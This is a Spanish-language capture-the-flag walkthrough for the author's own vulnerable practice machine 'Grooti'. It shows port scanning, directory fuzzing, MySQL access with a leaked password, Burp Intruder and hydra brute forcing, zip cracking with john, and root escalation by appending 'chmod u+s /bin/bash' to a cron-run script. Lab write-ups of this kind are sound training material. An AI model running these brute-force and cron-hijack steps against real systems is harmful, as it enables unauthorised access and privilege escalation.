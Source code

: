 
Este write up pertenece a mi primera máquina vulnerable creada por mi!!
Vamos a ello :)

Empezaremos haciendo un escaneo básico de puertos abiertos:

```
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

Y tenemos los puertos 80, 22 y 3306 abiertos

Empezaremos visitando la web y vemos la siguiente página:

![](./images/1.png)
Si vemos el código fuente nos encontramos con el siguiente mensaje:

```
 I am Grooti...
        Creo que Rocket ha entrado a mi base de datos...
```

Y si accedemos al apartado "Mis fotos" veremos un README.txt con el siguiente contenido:

```
(password1) Encuentra donde ponerla ;)
```

Parece ser la contraseña de una base de datos.
Si accedemos al apartado de "Mi base de datos" nos sale "not found" habrá que encontrar el directorio de la base de datos. Para ello haremos fuzzing web:

```
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
```

Y nos encuentra un directorio nuevo:

```
http://172.17.0.2/secret/
```

Accedemos a ella y nos encontramos con esto:

![](./images/2.png)


Aparece un panel de una base de datos, y podemos descargarnos un archivo que se llama instrucciones. Vamos a ver que contiene:

```
look carefully here ;)
```

Este mensaje nos aparece al principio pero si bajamos abajo del todo:

```
mysql -u rocket -p -h 172.17.0.2 --ssl=0
```

Tenemos el comando para acceder a mysql, probaremos con la contraseña de antes: password1

Conseguimos acceso a la base de datos y ahora para ver que hay haremos lo siguiente:

```
show databases;
+--------------------+
| Database           |
+--------------------+
| files_secret       |
| information_schema |
| performance_schema |
+--------------------+

MySQL [(none)]> use files_secret;

Database changed
MySQL [files_secret]> show tables;
+------------------------+
| Tables_in_files_secret |
+------------------------+
| rutas                  |
+------------------------+

MySQL [files_secret]> select * from rutas;
+----+------------+---------------------------------+
| id | nombre     | ruta                            |
+----+------------+---------------------------------+
|  1 | imagenes   | /var/www/html/files/imagenes/   |
|  2 | documentos | /var/www/html/files/documentos/ |
|  3 | facturas   | /var/www/html/files/facturas/   |
|  4 | secret     | /unprivate/secret               |
+----+------------+---------------------------------+
```

Encontramos un nuevo directorio secreto, vamos a verlo:

![](./images/3.png)

Vemos esta página donde nos piden dos entradas de texto, la segunda tiene que ser un número del 1 al 100. Vamos a probar que pasa poniendo hola y el número 1. Se nos descarga un archivo que pone lo siguiente:

```
Buen intento!
```

Vemos que se nos descarga un archivo llamado password*.txt donde el asterisco es el número que le demos, vamos a probar con el 5, 3 y con el último que se puede el 100:

```
paswword5.txt = Asi no lo vas a conseguir...
password100.txt =Caaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaasi ;)
password3.txt = Igual la fuerza bruta es un recurso...
```

Vaya, capturaremos la petición con burpsuite y la petición se la mandamos al intruder para hacer fuerza bruta. Lo configuramos así y lanzamos el ataque:

![](./images/4.png)


En el ataque vemos que el número 16 su "length" es muy superior al resto, por tanto cogeremos su petición y la envíamos:

![](./images/5.png)
![](./images/6.png)


En el apartado proxy le damos a "forward" y automáticamente se nos descarga un password16.zip, que a su vez esta protegido con contraseña. Vamos a crackearla:

```
zip2john password16.zip >> hash
```

```
john --wordlist=/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt hash 

Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (password16.zip/password16.txt) 
```

La contraseña del .zip es: password1, descomprimimos y nos saca un password16.txt, que es un diccionario de contraseñas, haremos fuerza bruta a ssh con el usuario "grooti", ya que en la página principal, se menciona: "I am grooti":

```
hydra -l grooti  -P password16.txt  ssh://172.17.0.2 

[22][ssh] host: 172.17.0.2   login: grooti   password: YoSoYgRoOt

```

Ya tenemos la contraseña, vamos a acceder a ssh ahora. Y conseguimos acceder a la máquina!!

ESCALADA DE PRIVILEGIOS

Para la escalada, esta máquina, esta configurada por el crontab:

```
crontab -e 

* * * * * /opt/cleanup.sh
```

```
cat cleanup.sh 
#!/bin/bash

bash /tmp/malicious.sh
```

No tenemos permisos de escritura, pero el script dice que se está ejecutando otro script en /tmp, iremos allí.

En /tmp hay este script: malicious.sh donde se ejecuta una creación de logs y posteriormente se elimina.

```
cat malicious.sh 
#!/bin/bash

LOG_TEMP="/tmp/mi_log_temporal.log"

echo "Log temporal creado a $(date)" > "$LOG_TEMP"
echo "Archivo $LOG_TEMP creado."

sleep 2

rm -f "$LOG_TEMP"
echo "Archivo $LOG_TEMP eliminado después de 2 segundos."
```

Aquí si tenemos permisos de escritura y como, root, por el crontab, ejecuta cada minuto el script de /opt que a su vez ejecuta este script, vamos a modificarlo para que nos devuelva una bash como root:

```
echo 'chmod u+s /bin/bash' >> malicious.sh 
```

Esperamos un minuto, ejecutamos bash -p y...

```
grooti@7e045e587dbb:/tmp$ bash -p
bash-5.2# whoami
root
```

Finalemente pwned ;)

```
bash-5.2# cd /root
bash-5.2# cat grooti.txt 
⠰⣶⣶⣶⣄⠀⠀⠀⢀⣀⠀⠀⣠⣄⡀⠀⠀⠀⠀⠀⠀⠀
⠀⠻⣿⣿⣿⡀⠀⠀⣿⠿⠷⢾⡏⠉⣿⣄⢀⣿⣷⡆⠀⠀
⢀⣠⣬⡁⢸⣿⣶⣿⣿⡇⠀⣾⡇⠀⣿⡏⠛⢻⣿⢧⣤⠀
⢸⣿⡿⡿⢻⠇⠀⢿⣿⡇⣠⣿⡇⣼⡿⠀⠀⣼⡏⢠⣾⠀
⢸⣿⡀⢀⣿⠀⣴⠈⣿⣿⣿⣿⣿⣿⠃⣾⣤⣿⠀⣼⣿⠀
⢸⣿⣧⢸⣿⣧⣿⣇⣿⣿⣿⣿⣿⣿⣾⣿⣿⣏⣼⣿⣿⠀
⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡄
⠈⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠁
⠀⢹⣿⣿⣿⣿⣿⠉⠙⣿⣿⣿⣿⣿⡯⠉⢻⣿⣿⣿⣿⠀
⠀⠸⣿⣿⣿⣧⡀⠀⣠⣿⣿⣿⣿⣄⠀⢀⣼⣿⣿⣿⠇⠀
⠀⠀⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡟⠀⠀
⠀⠀⠘⣿⣿⣿⣿⣿⡿⠿⠿⢿⣿⣿⣿⣿⣿⣿⡟⠁⠀⠀
⠀⠀⠀⠘⣿⣿⣿⣿⣷⣄⣀⣀⣠⣿⣿⣿⣿⠏⠀⠀⠀⠀
⠀⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⠟⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⠿⠿⠟⠛⠉⠀⠀⠀⠀
```
